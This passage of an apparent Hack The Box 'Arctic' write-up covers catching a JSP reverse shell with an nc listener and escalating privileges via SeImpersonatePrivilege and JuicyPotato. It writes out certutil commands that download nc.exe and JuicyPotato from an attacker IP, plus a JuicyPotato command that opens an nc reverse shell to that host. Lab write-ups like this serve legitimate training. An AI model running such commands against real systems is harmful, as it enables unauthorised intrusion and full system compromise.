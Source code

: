 ```bash
python3 -m http.server 80
```

![[python_server_reverse.png]]

Save and execute the task manually:  

![[web_executing_task.png]]

Confirm the upload in our server:

![[python_server_reverse.png]]

And in directory:

![[web_port_8500_CFIDE_reverse_uploaded.png]]

Start a listener and trigger the reverse shell:

```bash
nc -nlvp 443
```

Clicking `reverse.jsp` spawns a shell.  

![[GitHub Documentation/EASY/HTB_Arctic_Writeup/screenshots1/user_flag.png]]

🏁 **User flag obtained**  

We are **tolis** user.

---
## 4. Privilege Escalation

Check tolis privileges:  

![[GitHub Documentation/EASY/HTB_Arctic_Writeup/screenshots1/user_priv.png]]

The account has **SeImpersonatePrivilege**, exploitable with **JuicyPotato**.

We upload the binaries:

```bash
certutil.exe -f -urlcache -split http://10.10.14.7:80/nc.exe
certutil.exe -f -urlcache -split http://10.10.14.7:80/JP.exe
```

![[uploading_nc_&_JP.png]]

Execution:

```bash
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.7 4646"
```

![[GitHub Documentation/EASY/HTB_Arctic_Writeup/screenshots1/executing_JP.png]]

